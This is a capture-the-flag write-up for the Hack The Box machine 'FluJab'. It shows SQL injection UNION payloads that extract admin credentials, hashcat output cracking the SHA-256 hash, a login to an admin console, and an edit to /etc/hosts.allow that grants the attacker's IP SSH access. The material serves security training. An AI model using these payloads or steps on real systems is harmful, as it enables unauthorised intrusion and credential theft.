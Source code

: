 ## FluJab machine on HTB
### URL: https://app.hackthebox.com/machines/171
### Difficulty: Hard

## Solution
### Retrieving the Admin's account from the database
```
Query ==> hostnames
[Result #1] sysadmin-console-01.flujab.htb
[+] Payload sent: ' UNION SELECT 1, 2, GROUP_CONCAT(access), 4, 5 FROM vaccinations.admin -- -
Query ==> emails
[Result #2] syadmin@flujab.htb
[+] Payload sent: ' UNION SELECT 1, 2, GROUP_CONCAT(email), 4, 5 FROM vaccinations.admin -- -
Query ==> usernames
[Result #3] sysadm
[+] Payload sent: ' UNION SELECT 1, 2, GROUP_CONCAT(loginname), 4, 5 FROM vaccinations.admin -- -
Query ==> passwords
[Result #4] a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602
[+] Payload sent: ' UNION SELECT 1, 2, GROUP_CONCAT(password), 4, 5 FROM vaccinations.admin -- -
Query ==> 
```
### Cracking the Hash
After retrieving the hostname (`sysadmin-console-01.flujab.htb`), the username (`sysadm`), and the email address (`sysadmin@flujab.htb`), we discovered that the password for this user is stored as a hash: `a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602`.

```
soliman@Legion:~/hash-identifier$ /usr/bin/python3 hash-identifier.py
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602

Possible Hashs:
[+] SHA-256
[+] Haval-256

Least Possible Hashs:
[+] GOST R 34.11-94
[+] RipeMD-256
[+] SNEFRU-256
[+] SHA-256(HMAC)
[+] Haval-256(HMAC)
[+] RipeMD-256(HMAC)
[+] SNEFRU-256(HMAC)
[+] SHA-256(md5($pass))
[+] SHA-256(sha1($pass))
--------------------------------------------------
```

```
soliman@Legion:~$ hashcat -m 1400 hash wordlists/rockyou.txt
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-13th Gen Intel(R) Core(TM) i7-13700HX, 2848/5760 MB (1024 MB allocatable), 24MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 6 MB

Dictionary cache hit:
* Filename..: wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602:th3doct0r

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: a3e30cce47580888f1f185798aca22ff10be617f4a982d67643...508602
Time.Started.....: Wed Jul  9 20:14:10 2025 (1 sec)
Time.Estimated...: Wed Jul  9 20:14:11 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  7198.4 kH/s (0.33ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3280896/14344384 (22.87%)
Rejected.........: 0/3280896 (0.00%)
Restore.Point....: 3268608/14344384 (22.79%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: thaneerat -> testtest**+
Hardware.Mon.#1..: Util:  4%

Started: Wed Jul  9 20:13:58 2025
Stopped: Wed Jul  9 20:14:12 2025
soliman@Legion:~$
```
### Authentication Bypass
Login to https://sysadmin-console-01.flujab.htb:8080/view/login/normal using `sysadm`:`th3doct0r`

### RCE
After we logged-in successfully, we navigate to [Notepad](https://sysadmin-console-01.flujab.htb:8080/view/notepad) and click `Open` so we can allow our IP address to SSH to the machine by openning `/etc/hosts.allow` and add new couple of lines `sshd: <ATTACKER's IP ADDRESS>\nALL: 10.10.16.6` then click `Save`:
```
# grant ssh access per host
# syntax:
# sshd : [host ip]
###########################

sshd: 10.10.16.6
ALL: 10.10.16.6
```
